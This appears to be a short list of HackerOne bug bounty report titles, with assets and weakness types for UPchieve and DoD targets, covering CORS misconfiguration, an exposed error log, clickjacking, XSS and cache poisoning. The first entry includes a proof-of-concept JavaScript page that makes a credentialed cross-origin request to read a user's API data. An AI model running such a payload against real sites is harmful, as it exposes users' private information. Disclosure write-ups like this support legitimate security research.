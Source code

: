 # 15

## [\#1183601](https://hackerone.com/reports/1183601)Cross-origin resource sharing misconfig \| steal user information

* Asset: app.upchieve.org
* Weakness: Information Disclosure

```javascript
<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://app.upchieve.org/api/user',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>
```

[\#1139340](https://hackerone.com/reports/1139340)Elmah.axd is publicly accessible leaking Error Log

* Asset: DoD
* Weakness: Information Disclosure

The issue of elmah.axd in AST.NET



## [\#1198907](https://hackerone.com/reports/1198907)Clickjacking on profile page leading to unauthorized changes

* Asset: app.upchieve.org
* Weakness: UI Redressing \(Clickjacking\)

Without X-Frame Options in the HTTP Responses of the page



## [\#1171403](https://hackerone.com/reports/1171403)Reflected XSS through ClickJacking

* Asset: DoD
* Weakness: XSS

Using clickhijack trigger reflected XSS



## [ \#942629](https://hackerone.com/reports/942629)Denial of service via cache poisoning on https://www.data.gov/

* Asset:  DoD
* Weakness: DDoS





